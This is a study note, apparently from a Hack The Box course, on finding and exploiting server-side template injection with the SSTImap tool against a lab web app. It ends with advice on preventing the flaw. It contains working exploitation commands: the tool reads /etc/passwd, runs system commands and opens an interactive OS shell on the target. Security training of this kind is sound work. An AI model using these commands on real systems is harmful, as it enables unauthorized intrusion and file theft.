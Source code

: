 ﻿---
sticker: lucide//book-template
---
This section will showcase tools that can help us identify and exploit SSTI vulnerabilities. Furthermore, we will briefly explore how to prevent these vulnerabilities.

---

## Tools of the Trade

The most popular tool for identifying and exploiting SSTI vulnerabilities is [tplmap](https://github.com/epinna/tplmap). However, tplmap is not maintained anymore and runs on the deprecated Python2 version. Therefore, we will use the more modern [SSTImap](https://github.com/vladko312/SSTImap) to aid the SSTI exploitation process. We can run it after cloning the repository and installing the required dependencies:

```shell-session
smoothment@htb[/htb]$ git clone https://github.com/vladko312/SSTImap

smoothment@htb[/htb]$ cd SSTImap

smoothment@htb[/htb]$ pip3 install -r requirements.txt

smoothment@htb[/htb]$ python3 sstimap.py 

 â•”â•â•â•â•â•â•â•¦â•â•â•â•â•â•â•¦â•â•â•â•â•â•â•â•— â–€â–ˆâ–€
 â•‘ â•”â•â•â•â•â•£ â•”â•â•â•â•â•©â•â•â•— â•”â•â•â•â•â•—â–€â•”â•
 â•‘ â•šâ•â•â•â•â•£ â•šâ•â•â•â•â•— â•‘ â•‘ â•‘{â•‘ _ __ ___ __ _ _ __
 â•šâ•â•â•â•â•— â• â•â•â•â•â•— â•‘ â•‘ â•‘ â•‘*â•‘ | '_ ` _ \ / _` | '_ \
 â•”â•â•â•â•â• â• â•â•â•â•â• â•‘ â•‘ â•‘ â•‘}â•‘ | | | | | | (_| | |_) |
 â•šâ•â•â•â•â•â•â•©â•â•â•â•â•â•â• â•šâ•â• â•šâ•¦â• |_| |_| |_|\__,_| .__/
 â”‚ | |
 |_|
[*] Version: 1.2.0
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state, and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] Loaded plugins by categories: languages: 5; engines: 17; legacy_engines: 2
[*] Loaded request body types: 4
[-] SSTImap requires target URL (-u, --url), URLs/forms file (--load-urls / --load-forms) or interactive mode (-i, --interactive)
```

To automatically identify any SSTI vulnerabilities as well as the template engine used by the web application, we need to provide SSTImap with the target URL:

```shell-session
smoothment@htb[/htb]$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test

<SNIP>

[+] SSTImap identified the following injection point:

 Query parameter: name
 Engine: Twig
 Injection: *
 Context: text
 OS: Linux
 Technique: render
 Capabilities:
 Shell command execution: ok
 Bind and reverse shell: ok
 File write: ok
 File read: ok
 Code evaluation: ok, php code
```

As we can see, SSTImap confirms the SSTI vulnerability and successfully identifies the`Twig` template engine. It also provides capabilities we can use during exploitation. For instance, we can download a remote file to our local machine using the`-D` flag:

```shell-session
smoothment@htb[/htb]$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test -D '/etc/passwd' './passwd'

<SNIP>

[+] File downloaded correctly
```

Additionally, we can execute a system command using the`-S` flag:

```shell-session
smoothment@htb[/htb]$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test -S id

<SNIP>

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Alternatively, we can use`--os-shell` to obtain an interactive shell:


```shell-session
smoothment@htb[/htb]$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test --os-shell

<SNIP>

[+] Run commands on the operating system.
Linux $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Linux $ whoami
www-data
```

---

## Prevention

To prevent SSTI vulnerabilities, we must ensure that user input is never fed into the call to the template engine's rendering function in the template parameter. This can be achieved by carefully going through the different code paths and ensuring that user input is never added to a template before a call to the rendering function.

Suppose a web application intends to have users modify existing templates or upload new ones for business reasons. In that case, it is crucial to implement proper hardening measures to prevent the takeover of the web server. This process can include hardening the template engine by removing potentially dangerous functions that can be used to achieve remote code execution from the execution environment. Removing dangerous functions prevents attackers from using these functions in their payloads. However, this technique is prone to bypasses. A better approach would be to separate the execution environment in which the template engine runs entirely from the web server, for instance, by setting up a separate execution environment such as a Docker container.
